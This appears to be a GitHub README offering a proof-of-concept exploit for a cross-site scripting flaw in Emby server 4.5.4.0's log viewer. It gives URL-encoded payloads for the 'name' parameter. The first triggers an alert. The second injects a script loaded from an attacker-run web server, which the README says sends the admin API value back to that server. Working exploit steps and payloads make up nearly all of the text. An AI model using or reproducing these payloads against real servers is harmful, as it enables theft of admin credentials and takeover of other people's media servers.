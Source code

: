 # emby-4.5.4.0-xss-poc

1.Browse emby server url :**"http://192.168.201.3:8096/web/index.html#!/log?name=embyserver.txt"** which can show you the log files.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**, urldecoded as "\<img src=x onerror=alert(1)\>"

3.Url will be **"http://192.168.201.3:8096/web/index.html#!/log?name=%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**

3.Browse the edited url and it will show an alert dialog (U may have to refresh 2-3 times).

# emby-4.5.4.0-xss-stole-admin-api-exp

1.Put emby.js in directory and run "python -m SimpleHTTPServer" to run a web server.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%29%2e%73%72%63%3d%27%2f%2f%31%32%37%2e%30%2e%30%2e%31%2f%65%6d%62%79%2e%6a%73%27%3e"**

3.Browse the edited url and you will load emby.js from SimpleHTTPServer and send the api value to SimpleHTTPServer.

![image](https://raw.githubusercontent.com/EstamelGG/emby-4.5.4.0-xss-exp/main/WX20210128-174426%402x.png)
